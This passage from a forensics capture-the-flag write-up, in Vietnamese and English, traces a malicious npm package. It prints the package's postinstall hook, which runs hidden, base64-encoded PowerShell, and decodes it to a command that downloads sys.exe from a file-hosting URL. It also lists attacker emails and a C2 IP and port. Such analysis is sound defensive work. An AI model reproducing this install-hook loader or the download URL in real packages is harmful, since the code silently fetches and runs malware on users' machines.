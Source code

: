 Answer: `ammar55221133@gmail.com`

### 6. What is the email of the attacker?

Answer: `masmoudim522@gmail.com`

### 7. What is the URL that the attacker used to deliver the malware to the victim?
Vào github của hacker `https://github.com/lmdr7977/student-api` và vào file `package.json`, là nơi npm dựa vào để tải các module cần thiết. Chúng ta sẽ thấy được có một dòng execute bằng powershell từ một mã `base64`.
```
"scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand \"JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=\""
  },
```
Decode mã trên chúng ta sẽ có được URL mà hacker dùng để tấn công.
```
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
```

Answer: `https://tmpfiles.org/dl/23860773/sys.exe`

### 8. What is the SHA256 hash of the malware file?
Extract file `sys.exe` trong file `test.ad1` từ folder `Users\ammar\AppData\Roaming` và tính sha256.

Answer: `be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`

### 9. What is the IP address of the C2 server that the malware communicates with?
Dựa vào thông tin trên [Virus total](https://www.virustotal.com/gui/file/be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d/relations), chúng ta thấy được file này giao tiếp với C2 server có ip là `40.113.161.85` ở port `5000`.

Answer: `40.113.161.85`

### 10. What port does the malware use to communicate with its Command & Control (C2) server?
Answer: `5000`

### 11. What is the url if the first Request made by the malware to the c2 server?
Dựa theo trên Virus total và trong ida, chúng ta có thể suy đoán ra được first request
![image](https://hackmd.io/_uploads/rJziWeMpeg.png)
![image](https://hackmd.io/_uploads/B1Z3ZeG6ll.png)
![image](https://hackmd.io/_uploads/HJvF-xMTgx.png)
